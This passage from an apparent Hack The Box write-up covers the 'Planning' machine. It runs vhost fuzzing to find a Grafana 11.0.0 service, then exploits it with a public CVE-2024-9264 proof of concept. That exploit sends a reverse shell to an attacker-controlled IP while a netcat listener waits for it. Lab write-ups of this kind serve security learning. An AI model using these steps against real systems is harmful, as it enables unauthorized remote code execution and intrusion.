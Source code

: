 ```zsh
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 400
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 259ms]
```

The scan was successful; it allowed me to discover a Grafana service.

I add the new route to `/etc/hosts`.
```zsh
sed -i '$ a\10.10.11.68\tplanning.htb\tgrafana.planning.htb' /etc/hosts
```

I log in with the provided credentials.
![web](/images/HTB/Pasted_image_20250923111457.png)

As you know, whenever there’s a service running in the background, it’s a good practice to check its version and see if it has any CVEs.

```zsh
whatweb http://grafana.planning.htb/login
http://grafana.planning.htb/login [200 OK] Country[RESERVED][ZZ], Grafana[11.0.0], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], Script[text/javascript], Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx[1.24.0]
```
Grafana v11.0.0
## Exploitation

I investigate whether there is any public exploit for that Grafana version.
![research](/images/HTB/Pasted_image_20250925160808.png)

The following GitHub repository contains a fairly intuitive PoC: [CVE-2024-9264 PoC](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit.git)
![research](/images/HTB/Pasted_image_20250925160857.png)

Once the repository is cloned, I go into the directory that contains the exploit to run it. By the way, before launching the exploit remember to set up a listener (in my case: `nc -nlvp 443`).

```zsh
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.16.3 --reverse-port 443 
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 443
```
